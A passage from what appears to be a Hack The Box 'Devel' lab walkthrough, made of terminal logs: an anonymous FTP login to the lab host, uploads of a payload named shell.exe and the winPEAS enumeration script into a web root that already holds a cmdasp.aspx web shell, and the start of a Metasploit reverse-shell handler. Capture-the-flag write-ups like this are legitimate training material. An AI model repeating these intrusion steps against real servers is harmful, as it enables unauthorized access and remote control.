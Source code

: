 ```
user@kali:~/hackthebox/hackthebox/devel/upload$ ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:user): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> binary
200 Type set to I.
ftp> put shell.exe
local: shell.exe remote: shell.exe
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
73802 bytes sent in 0.00 secs (612.0267 MB/s)
ftp> put winPEAS.bat
local: winPEAS.bat remote: winPEAS.bat
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
32976 bytes sent in 0.00 secs (655.1743 MB/s)
ftp> dir
200 PORT command successful.
125 Data connection already open; Transfer starting.
03-18-17  01:06AM       <DIR>          aspnet_client
01-06-21  10:16PM                 1442 cmdasp.aspx
03-17-17  04:37PM                  689 iisstart.htm
01-06-21  11:27PM                73802 shell.exe
01-06-21  10:06PM                    7 test.txt
03-17-17  04:37PM               184946 welcome.png
01-06-21  11:11PM                32976 winPEAS.bat
226 Transfer complete.
ftp> 
```

We start Metasploit and open a meterpreter handler connecting on port 4444: 

```
user@kali:~/hackthebox/hackthebox/devel$ sudo msfdb run
[sudo] password for user: 
[+] Starting database
                                                  
     ,           ,
    /             \
   ((__---,,,---__))
      (_) O O (_)_________
         \ _ /            |\
          o_o \   M S F   | \
               \   _____  |  *
                |||   WW|||
                |||     |||


       =[ metasploit v6.0.21-dev                          ]
+ -- --=[ 2086 exploits - 1126 auxiliary - 354 post       ]
+ -- --=[ 596 payloads - 45 encoders - 10 nops            ]
+ -- --=[ 7 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try 
globally setting it with setg RHOSTS x.x.x.x

msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
```